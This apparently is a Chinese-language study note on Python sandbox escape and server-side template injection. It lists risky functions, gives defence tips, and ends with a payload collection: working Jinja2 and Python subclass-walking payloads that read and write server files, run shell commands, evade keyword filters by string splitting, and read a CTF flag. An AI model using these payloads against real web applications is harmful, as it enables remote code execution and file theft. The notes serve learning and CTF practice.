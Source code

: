 # 626日志
[toc]
## python沙盒逃逸
### 0x01 简单介绍
python沙盒逃逸就是通过绕过种种过滤和限制，拿到本不应获取的一些“危险函数"，或者绕过Python终端达到命令执行的效果。

### 0x02 常用危险函数
1. ```os.system()```：执行操作系统命令，可能导致恶意代码注入。

2. ```subprocess.call()```：类似于os.system()，执行操作系统命令，同样存在注入风险。

3. ```eval()```：将字符串作为Python代码执行，可能导致不安全的行为。

4. ```pickle```模块：用于序列化和反序列化Python对象，可能导致代码注入和远程执行代码等安全问题。

5. ```urllib```和```requests```模块：用于发送HTTP请求，如果不进行合理的验证和过滤，可能导致远程代码执行、越权访问等问题。

6. ```sqlite3```模块：如果用户能够控制SQL语句，可能会导致SQL注入攻击。

7. ```shutil```模块：用于文件操作，但是如果使用不当，可能导致非预期的文件访问，例如删除重要文件等。

8. ```socket```模块：用于网络通信，但是如果不进行合理的限制和验证，可能导致远程代码执行、拒绝服务攻击等问题。
## SSTI模板注入
### 0x01简单介绍
SSTI（Server-Side Template Injection）是一种Web应用程序模板注入攻击，它允许攻击者向服务器端发送恶意模板代码，从而执行任意代码和获取服务器中存储的敏感信息。这种漏洞通常存在于使用动态模板引擎的Web应用程序中，例如Flask、Django等。

攻击者可以通过将恶意模板代码注入到用户提交的表单数据中，然后服务器会将这些模板代码作为参数传递给模板引擎进行处理，导致恶意代码被执行。攻击者可以利用这个漏洞来执行任意代码、读取服务器中的文件内容、获取管理员权限等。
### 0x02防范建议
为了防止SSTI漏洞，应该遵循以下建议：

1. 避免直接使用用户输入作为模板变量，应该对用户输入进行严格的验证和过滤。

2. 使用安全的模板引擎，例如Jinja2，它有内置的沙盒机制，可以限制模板变量只能访问特定的属性和方法。

3. 禁用危险的模板语法，例如在Flask中禁用{{ ... }}和{# ... #}语法。 

4. 在应用程序中实现应用层防护措施，例如限制应用程序的权限和访问范围，以防止攻击者利用SSTI漏洞进行高级攻击。
### 0x03常见的SSTI模板注入
以下是常见的SSTI模板注入语句：

Flask中的{{ ... }}语法：
```python
{{7*7}}
{{config.items()}}
```
Django中的{{ ... }}语法：
```python
{{request.user.username}}
{{settings.contents}}
```
Jinja2中的{{ ... }}语法：
```python
{{7*7}}
{{config.items()}}
```
攻击者可以通过将恶意代码注入到上述模板变量中来执行任意代码，例如：

读取服务器中的敏感信息：
```python
{{''.__class__.__mro__[1].__subclasses__()[288]('../secret_file').read()}}
```
执行任意系统命令：
```python
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```
### 0x04paylod总结
```python{.line-numbers}
# 利用file()函数读取文件：（写类似）
().__class__.__bases__[0].__subclasses__()[40]('./test.py').read()

# 执行系统命令：
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].os.system('ls')

# 执行系统命令：
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").system("ls")')

# 重新载入__builtins__：
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']("os").system("ls")

#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

#写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

# 利用 __getattibute__ 方法

x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')

### 上述命令需要通过哦 exec 或者别的命令执行函数执行

# python3
py2 [58] <class 'warnings.catch_warnings'> 对应 py3 [157]
().__class__.__bases__[0].__subclasses__()[157]()._module.__builtins__['__import__']("os").system("ls")

推荐的另外一个类
''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__["sys"].modules["os"].system("cat FLAG")

```
